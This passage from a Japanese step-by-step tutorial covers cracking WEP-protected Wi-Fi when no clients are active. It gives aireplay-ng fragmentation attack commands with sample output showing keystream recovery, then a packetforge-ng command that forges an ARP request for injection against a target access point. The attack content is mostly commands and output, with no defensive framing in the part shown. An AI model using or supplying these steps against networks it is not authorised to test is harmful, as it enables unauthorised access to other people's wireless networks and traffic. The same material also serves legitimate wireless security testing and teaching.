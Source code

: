 　続いてアクセスがない場合の方法です。
　今度は前者と違い、ARPリクエストが漂っていてくれません。よって自分で発生
させる必要がありますので、ビーコンからパケットを分析するFragmentationをし
ます。「aireplay\-ng \-5 \-b <ターゲットAPのBSSID> \-h <使用するNICのMACアド
レス> <使用するNIC>」と入力してください。

\-\-\-\-\-
\# aireplay\-ng \-5 \-b 00:11:22:33:44:55 \-h ZZ:ZZ:ZZ:ZZ:ZZ:ZZ ath1
12:40:35 Waiting for a data packet... 
Read 52 packets... 

        Size: 154, FromDS: 1, ToDS: 0 (WEP) 

             BSSID \= 00:11:22:33:44:55
         Dest. MAC \= AA:AA:AA:AA:AA:AA
        Source MAC \= BB:BB:BB:BB:BB:BB

        0x0000: 0842 0201 000f b5ab cb9d 0014 6c7e decf .B.............. 
        0x0010: 00d0 cf03 348c e0d2 4001 0000 2b62 7a01 ....4...@...+bz. 
        0x0020: 6d6d b1e0 92a8 039b ca6f cecb 5364 6e16 mm.......o..Sdn. 
        0x0030: a21d 2a70 49cf eef8 f9b9 279c 9020 30c4 ..*pI.....'.. 0. 
        0x0040: 7013 f7f3 5953 1234 5727 146c eeaa a594 p...YS.4W'.l.... 
        0x0050: fd55 66a2 030f 472d 2682 3957 8429 9ca5 .Uf...G\-&.9W.).. 
        0x0060: 517f 1544 bd82 ad77 fe9a cd99 a43c 52a1 Q.D...w.....<R. 
        0x0070: 0505 933f af2f 740e ...?./t. 
        \-\-\-CUT\-\-\-

Use this packet ? y (ここで[y]キーを押す)

Saving chosen packet in replay_src\-0123\-456789.cap
12:41:11 Data packet found!
12:41:11 Sending fragmented packet
12:41:11 Got RELAYED packet!!
12:41:11 Thats our ARP packet!
12:41:11 Trying to get 384 bytes of a keystream
12:41:11 Got RELAYED packet!!
12:41:11 Thats our ARP packet!
12:41:11 Trying to get 1500 bytes of a keystream
12:41:11 Got RELAYED packet!!
12:41:11 Thats our ARP packet!
Saving keystream in fragment\-0123\-456789.xor
Now you can build a packet with packetforge\-ng out of that 1500 bytes keystream
\-\-\-\-\-

　問題なく実行されたら、次はARPリクエストを作るために「packetforge\-ng \-0
 \-a <ターゲットAPのBSSID> \-h <使用するNICのMACアドレス> \-k <送信先IPアド
レス> \-l <送信元IPアドレス> \-y <Fragmentationで作られた.xor> \-w <任意のフ
ァイル名>」と入力します。送信先IPアドレスはブロードキャストアドレスである
「255.255.255.255」、送信元IPアドレスは適当で大丈夫です。 

\-\-\-\-\-
\# packetforge\-ng \-0 \-a 00:11:22:33:44:55 \-h ZZ:ZZ:ZZ:ZZ:ZZ:ZZ \-k 255.255.255.255 \-l 192.168.11.11 \-y fragment\-0123\-456789.xor \-w aprr
Wrote packet to: aprr
\-\-\-\-\-
